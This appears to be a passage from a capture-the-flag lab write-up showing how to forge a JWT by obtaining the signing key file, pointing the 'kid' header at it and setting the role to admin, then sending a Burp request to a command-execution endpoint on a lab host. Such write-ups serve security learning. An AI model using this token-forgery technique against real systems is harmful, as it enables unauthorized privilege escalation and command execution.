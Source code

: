 Issue seems to be that the page has a script section that logs us out after 20 seconds, so, there's few time to perform actions on the server, so, let's begin with decoding the token:

```ad-hint
#### Starting the decoding
----

For decoding this token I used this website: [URL](https://jwt.io/#debugger-io)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118175307.png)

To finish the decoding, we need the 256 bit secret, which can be found in the `188ade1.key` file, let's get the secret:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118175423.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118175454.png)
We got the 256 bit secret, let's do the following:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118175749.png)
1. Change the `kid` to the path we think the file is located at, in this case, `/var/www/html/188ade1.key`.
2. Change the `role` to `admin`
3. Enter the 256 bit secret
4. Get our new jwtToken and use `burp` to send a request with it, in order to perform higher privileged actions.

## Sending the burp request:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118180103.png)
```

```r
POST /execute_command.php HTTP/1.1

Host: 10.10.176.51:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzMxOTcwNzA3LCJleHAiOjE3MzE5NzQzMDcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.8eF5rLcT9OeSj4CZ_1NjKIsNEF54boyTSetZlnqQmQY

X-Requested-With: XMLHttpRequest

Content-Length: 16

Origin: http://10.10.176.51:1337

Connection: keep-alive

Referer: http://10.10.176.51:1337/dashboard.php

Cookie: PHPSESSID=cgvmui0ktgr6fuu1atg9jhrka6; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzMxOTcwNzA3LCJleHAiOjE3MzE5NzQzMDcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.8eF5rLcT9OeSj4CZ_1NjKIsNEF54boyTSetZlnqQmQY; persistentSession=no

```